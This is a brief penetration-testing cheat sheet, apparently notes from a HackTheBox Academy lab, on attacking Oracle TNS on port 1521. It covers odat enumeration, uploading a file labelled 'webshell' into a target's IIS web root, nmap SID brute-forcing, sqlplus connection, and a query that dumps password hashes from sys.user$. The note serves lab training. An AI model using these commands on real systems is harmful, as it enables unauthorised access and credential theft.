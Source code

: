 # 1521 TCP - Oracle TNS

TCP/1521

Each database or service has a unique entry in the [tnsnames.ora](https://docs.oracle.com/cd/E11882_01/network.112/e10835/tnsnames.htm#NETRF262) file, containing the necessary information for clients to connect to the service.

In short, the client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses,

the listener uses the `listener.ora` file to determine what service need to listen.

## Enumlation

In Kali, just `sudo apt install odat`.

```
# dont forget to sudo 
$ sudo odat all -s <server ip>
```

**Upload file via odat**

```
$ echo "webshell" > testing.txt
$ ./odat.py utlfile -s <TargetIP> -d <SIDS> -U <username> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```


## Nmap Bruteforce

```
$sudo nmap -p1521 -sV <server ip> --open --script oracle-sid-brute
```

## sqlplus

```
$ sudo apt install oracle-instantclient-sqlplus
```

Solve for `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`

```
$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

How to Connect 

```
$ sqlplus <username>/<password>@<Target IP>/<SIDS>
$ sqlplus <username>/<password>@<Target IP>/<SIDS> as sysdba
```

Example SQL Command

```sql
SQL> select * from user_role_privs;
SQL> select table_name from all_tables;
SQL> select name, password from sys.user$;
```


## Reference 

+ Hackthebox Academy - Footprinting - Oracle TNS